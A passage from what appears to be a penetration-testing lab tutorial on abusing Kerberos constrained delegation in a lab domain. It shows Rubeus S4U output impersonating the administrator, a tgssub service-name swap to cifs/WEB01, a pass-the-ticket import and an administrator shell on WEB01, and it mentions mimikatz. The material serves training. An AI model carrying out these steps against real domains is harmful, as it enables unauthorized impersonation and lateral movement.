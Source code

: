 ```powershell
[+] TGT request successful!
[*] base64(ticket.kirbi):

   doIFqDCCBaSgAwIBBaEDAgEWooIEqjCCBKZhggSiMIIEnqAD<SNIP>

[*] Action: S4U

[*] Building S4U2self request for: '[email protected]'
[*] Using domain controller: DC02.inlanefreight.local (172.16.92.10)
[*] Sending S4U2self request to 172.16.92.10:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to '[email protected]'
[*] base64(ticket.kirbi):

   doIGDDCCBgigAwIBBaEDAgEWooIFDDCCBQhhggUEMII<SNIP>

[*] Impersonating user 'administrator' to target SPN 'dhcp/DATABASE01'
[*] Building S4U2proxy request for service: 'dhcp/DATABASE01'
[*] Using domain controller: DC02.inlanefreight.local (172.16.92.10)
[*] Sending S4U2proxy request to domain controller 172.16.92.10:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'dhcp/DATABASE01':

   doIGtDCCBrCgAwIBBaEDAgEWooIFuDCCBbRhggWw<SNIP>

```

**Note:** We can use tools such as mimikatz or abuse Shadow Credentials to get SRV01's NT hash.

The ticket obtained through executing `Rubeus s4u` wouldn't provide us access to `WEB01` due to a discrepancy in the hostname. Additionally the service class `dhcp/DATABASE01` doesn't provide an attack path, we need to change it to another service such as `CIFS`. The key aspect, however, is that this ticket is encrypted for `WEB01`, with the service name not encrypted within the ticket. This allows us to alter the service name to one valid and the hostname to match the target `WEB01`. To do that we will use the `Rubeus` option `tgssub` which take a service ticket base64 blob/file specification and substitute an alternate service name into the ticket. This is useful for S4U abuse and other scenarios.

```powershell
PS C:\Tools> .\Rubeus.exe tgssub /ticket:<SNIP> /altservice:cifs/WEB01 /nowrap

```

Now we can use this ticket to impersonate the Administrator account on `WEB01` and target the `CIFS` service:

```powershell
PS C:\Tools> .\Rubeus.exe ptt /ticket:doIGpjCCBqKgAwIBBaEDAgEWooIFsTCCBa1h<SNIP>

  ______    _
 (_____ \   | |
  _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v2.3.2

[*] Action: Import Ticket
[+] Ticket successfully imported!

```


[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname